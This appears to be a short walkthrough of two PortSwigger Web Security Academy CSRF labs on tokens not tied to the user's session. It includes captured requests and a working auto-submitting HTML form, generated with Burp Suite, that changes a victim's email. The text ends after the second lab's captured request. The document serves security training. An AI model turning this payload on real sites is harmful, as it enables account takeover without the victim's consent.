 ### Lab: CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

There is weak csrf validation. It checks just legit one, not the relevant with the user.

```
POST /my-account/change-email HTTP/1.1
...
email=test%40test.com&csrf=JG7Q6mBICNYFzoyoV5hYpWtrNYd594P8
```

```
<input required type="hidden" name="csrf" value="Y9fAYvcu20R4no9eYZW5xoMu5ArQu2yU">
```

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Replace CSRF value -> Copy HTML

We did not use intended one. We used unused csrf value.

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://ac0c1fb61ec9ef30c0fc378900d60097.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="hidden" name="csrf" value="Y9fAYvcu20R4no9eYZW5xoMu5ArQu2yU" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```

### Lab: CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

There is weak csrf validation. It checks just legit one, not the relevant with the user.

```
POST /my-account/change-email HTTP/1.1
Cookie: csrfKey=8I8n27eFyGpcdsZx0IclajLEbnlHnKby;
...
email=test%40test.com&csrf=fz9i4GYhEG7fmO2F1eH34fsTpsQ3vwlw
```
